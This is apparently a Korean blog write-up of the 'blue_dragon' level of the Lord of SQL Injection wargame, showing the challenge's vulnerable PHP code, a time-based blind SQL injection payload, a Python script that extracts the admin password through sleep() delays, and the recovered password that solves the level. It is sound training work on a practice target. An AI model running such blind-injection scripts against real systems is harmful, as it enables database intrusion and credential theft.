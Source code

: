 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - blue_dragon 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


드디어 용 시리즈의 마지막인 `blue_dragon`이다.  

내가 바보임을 다시 한 번 깨달을 수 있었던 문제였다.  

<!--more-->

코드는 다음과 같다.  

```php
--------------------------------------------------------------------------------------
query : select id from prob_blue_dragon where id='' and pw=''
--------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\./i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_blue_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_blue_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("blue_dragon");
  highlight_file(__FILE__);
?>
```

단순히 필터링만 보자면 `'(싱글쿼터)`와 여태까지 싱글쿼터가 필터링이었을 때 사용했던 `\`을 사용하지 못하도록 되어 있다.  

그런데 필터링을 걸어 둔 위치가 좀 다르다.  

쿼리를 실행시킨 후에 필터링을 검사하고 이에 대한 결과를 출력한다.  

그래서 `'`를 사용한다면 쿼리의 결과를 `Hello admin`의 형태로는 확인할 수 없겠지만, 어찌됬든 쿼리가 실행은 되므로 `Time Based Blind SQL Injection`을 사용할 수 있다.  

테스트로 `id=a&pw=' or id='admin' and if(length(pw)>0, sleep(3), 0)#`을 입력 해 보았다.  

그랬더니 약 3초 간 지연 후에 내가 입력 한 쿼리와 함께 `No Hack ~_~`을 출력하는 결과 화면을 볼 수 있었다.  

정상적으로 쿼리가 동작하므로 pw의 길이와 값을 알아내기 위해 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests
import time

flag = ""
length = 0

url = "http://los.rubiya.kr/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php?id=a&pw=' or id='admin' and"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 40):
	try:
		start = time.time()
		query = url + " if(length(pw) = " + str(i) + ", sleep(3), 0)%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue
	if (time.time() - start) > 3:
		length = i
		break	

print "[+] Found length : ", length

print "[+] Find password"
	
for j in range(1, length + 1):
	for i in range(48, 123):
		try:
			start = time.time()
			query = url + " if(substr(pw, " + str(j) + ", 1) = " + hex(i) + ", sleep(3), 0)%23"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if (time.time() - start) > 3:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

내 서버가 너무 느려서 도대체 결과가 안나오길래 쿼리가 잘못된 것인가 고민했었다.  

그런데 학교 다닐 때 쓰던 동아리 서버에서 돌렸더니 너무 잘돌아간다 ㅎㅎ  

서버를 바꾸던가 해야지 원...  

어찌됬건 결과는 다음과 같다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : D
[+] Found 2 : D9
[+] Found 3 : D94
[+] Found 4 : D948
[+] Found 5 : D948B
[+] Found 6 : D948B8
[+] Found 7 : D948B8A
[+] Found 8 : D948B8A0
[+] Found password :  D948B8A0
[+] End
```

역시나 소문자로 입력 해 주면 문제를 풀 수 있다.  

```
?pw=d948b8a0
```

```php
---------------------------------------------------------------------------------------------------
query : select id from prob_blue_dragon where id='' and pw='d948b8a0'
---------------------------------------------------------------------------------------------------

BLUE_DRAGON Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\./i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_blue_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_blue_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("blue_dragon");
  highlight_file(__FILE__);
?>
```

`BLUE_DRAGON Clear!!`